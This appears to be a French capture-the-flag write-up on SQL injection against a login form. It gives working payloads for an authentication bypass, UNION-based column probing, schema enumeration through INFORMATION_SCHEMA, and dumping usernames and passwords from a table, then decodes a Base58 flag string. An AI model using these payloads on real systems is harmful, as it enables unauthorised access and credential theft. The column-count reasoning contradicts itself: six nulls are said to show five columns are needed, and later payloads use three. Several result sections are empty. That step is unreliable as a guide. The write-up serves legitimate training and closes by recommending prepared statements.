



### **SQL Injection et récupération de données sensibles**

Dans ce challenge, on a un formulaire avec deux champs : `username` et `password`. Notre objectif est d'exploiter une faille SQL Injection pour extraire des données sensibles de la base de données.

---

#### **Étape 1 : Tester une injection basique**

J'ai commencé par tester une injection SQL simple dans le champ `password`. Voici le payload utilisé :

`username=admin&password='OR''='`

**Résultat :**  
Le serveur retourne une liste d’utilisateurs présents dans la base de données :

---

#### **Étape 2 : Déterminer le nombre de colonnes**

Ensuite, j’ai essayé de déterminer le nombre de colonnes nécessaires pour une requête SQL valide. J'ai utilisé ce payload :

`username=admin&password=' UNION SELECT null, null, null, null, null, null --` 

Cela a produit une erreur, ce qui indique que 5 colonnes sont nécessaires pour une injection valide.

---

#### **Étape 3 : Obtenir la version de la base de données**

Avec le nombre correct de colonnes, j’ai utilisé un payload pour récupérer la version de la base de données :

`username=a&password=' UNION SELECT 1, @@version, 3-- -` 

**Résultat :**

Cela indique que la base de données utilise MySQL version 5.7.44.

---

#### **Étape 4 : Lister les tables**

Pour lister les tables disponibles dans la base de données, j’ai utilisé le payload suivant :

`username=a&password=' UNION SELECT 1, TABLE_NAME, 3 FROM INFORMATION_SCHEMA.TABLES-- -` 

**Résultat :**

---

#### **Étape 5 : Lister les colonnes d’une table**

Une fois la table `blueprints` identifiée, j’ai listé ses colonnes avec ce payload :

`username=a&password=' UNION SELECT 1, COLUMN_NAME, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blueprints'-- -` 

**Résultat :**

---

#### **Étape 6 : Extraire les données de la table**

J’ai ensuite extrait les données de la table `blueprints` en combinant les colonnes :

`username=a&password=' UNION SELECT id, CONCAT(username, ':', password, ':', is_encrypted, ':', file_name, ':', description), 3 FROM blueprints--` 

**Résultat :**

---

#### **Étape 7 : Décoder les données**

En regardant de plus près, j'ai trouvé une chaîne intéressante associée au fichier `secret_key.txt` :

`W5HWRxWbZM7AUhxgfRwZg58ANQFKgMwutG`

En la décodant en **Base58**, j’ai trouvé une partie de la flag.

---

### **Conclusion**

Ce challenge démontre l’impact potentiel d’une vulnérabilité SQLi. Grâce à des payloads bien construits, il est possible d’extraire des informations sensibles comme les noms de tables, de colonnes, et même des données critiques. La dernière étape, consistant à décoder les données trouvées, est la clé pour résoudre le challenge. Toujours vérifier les données sensibles dans les bases de données et appliquer des mesures de protection telles que les requêtes préparées pour éviter de telles attaques.